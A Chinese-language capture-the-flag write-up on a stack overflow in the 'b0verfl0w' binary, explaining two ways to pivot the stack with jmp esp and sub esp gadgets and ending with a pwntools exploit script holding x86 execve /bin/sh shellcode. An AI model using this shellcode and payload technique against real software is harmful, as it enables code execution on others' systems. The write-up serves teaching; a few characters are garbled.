 发生栈溢出后，eip指向jmp esp addr，程序执行jmp esp，但是问题来了，此时的esp在...的内存单元地址处，我们本来是想用jmp esp跳到payload处，可是不能达到目的。那么怎么构造？ 
 
##### 方法一 
给出自己想出来的第一种构造方法，比wiki中方法短一点，可以缩短到溢出空间为4个字节，但是也是巧合吧，找到了0x08048500这个gadget。先改变esp的值，然后再jmp esp，如下图所示： 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
当程序执行ret指令后，就会使eip指向sub esp,0x24时，此时esp指向0x28；当程序执行完sub esp,0x24指令（为���么不是0x28呢？因为这里只在b0verfl0w找到了sub esp,0x24）后，就会使esp指向0x04位置，也就是存储0x08048504的单元。 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
再次执行ret指令后，使得eip指向jmp esp，此时esp指向shellcode（本题中没有nx保护）；执行执行完jmp esp指令后，eip指向了shellcode，这样shellcode就被触发了。 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
 
##### 方法二 
来看第二种方法：这是wiki中给出的构造方法，如下：程序执行完ret指令后，eip会指向jmp esp，此时esp指向0x28。 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
执行完黄色的jmp esp后，eip指向了0x28。 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
程序执行完sub esp,0x28指令后，esp指向0x0。 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
此时程序会继续执行蓝色的jmp esp指令，然后eip就会指向0x0��接下来会执行payload。 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
ps：可以发现我们实际上构造的payload是什么？我当时不明白为什么要使用jmp esp的gadget。 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
这个就是应该执行的payload，执行control esp部分，那么一切就变的很完美掌控。但是确无法直接实现，因为指令被写入了栈里面（写入sub esp,0x28指令，前提是没有开启nx），需要eip去指向这个地址，才可以顺利执行，通过jmp esp的gadget即可达到这个效果，如下： 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
这样就可以，因为执行0x08048504时，esp指向0x28，那么jmp esp后shellcode就会完美执行。 
 
#### exp 
 
##### exp一 
 
 ```java 
  exp（一）：
from pwn import *
sh = process('./b0verfl0w')
# context.arch = 'i386'
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x24;jmp esp')
jmp_esp = 0x08048504
sub_esp = 0x08048500
payload = 'bbbb' + p32(jmp_esp) + shellcode_x86 + (
    0x20 - len(shellcode_x86) - 8) * 'b' + 'bbbb' + p32(sub_esp)

sh.sendline(payload)
# gdb.attach(sh)
sh.interactive()

  ``` 
  